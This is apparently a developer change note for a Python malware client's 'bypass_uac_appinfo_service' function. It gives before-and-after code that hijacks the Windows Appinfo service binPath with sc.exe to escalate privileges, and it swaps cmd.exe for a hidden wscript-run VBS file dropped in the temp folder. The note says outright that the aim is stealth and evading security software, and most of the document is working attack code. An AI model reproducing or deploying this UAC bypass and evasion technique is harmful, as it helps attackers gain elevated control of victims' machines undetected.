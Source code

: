 # VBS SystemService Update - Complete

## 🔄 Change Summary

Modified the **AppInfo Service UAC Bypass** to use **VBS (Visual Basic Script)** instead of **CMD.EXE** for enhanced stealth and operational security.

## 📍 Location

**File**: `client.py`  
**Function**: `bypass_uac_appinfo_service()`  
**Lines**: 2787-2860

## ❌ BEFORE (CMD-based)

```python
def bypass_uac_appinfo_service():
    """UAC bypass using AppInfo service manipulation (UACME Method 61)."""
    # ... setup code ...
    
    # Modify service binary path to include our payload
    subprocess.run(['sc.exe', 'config', 'Appinfo', 'binPath=', 
                  f'cmd.exe /c {current_exe} && svchost.exe -k netsvcs -p'],  # ❌ CMD.EXE
                 creationflags=subprocess.CREATE_NO_WINDOW, timeout=10)
```

### Problems with CMD:
- ❌ CMD.EXE is more easily detected by security software
- ❌ More suspicious in logs and process trees
- ❌ Can leave command-line history
- ❌ Direct process execution is more obvious

---

## ✅ AFTER (VBS-based)

```python
def bypass_uac_appinfo_service():
    """UAC bypass using AppInfo service manipulation (UACME Method 61) - VBS Edition."""
    # ... setup code ...
    
    # Create VBS script for stealthy execution
    vbs_script = f'''
Set objShell = CreateObject("WScript.Shell")
objShell.Run "{current_exe}", 0, False
Set objShell = Nothing
'''
    
    # Save VBS to temp directory
    vbs_path = os.path.join(tempfile.gettempdir(), "sysupdate.vbs")
    with open(vbs_path, 'w') as f:
        f.write(vbs_script)
    
    # Modify service binary path to use VBS instead of CMD
    # VBS runs silently without console window - much stealthier!
    subprocess.run(['sc.exe', 'config', 'Appinfo', 'binPath=', 
                  f'wscript.exe //B //Nologo "{vbs_path}" && svchost.exe -k netsvcs -p'],  # ✅ WSCRIPT.EXE
                 creationflags=subprocess.CREATE_NO_WINDOW, timeout=10)
    
    # ... cleanup code ...
```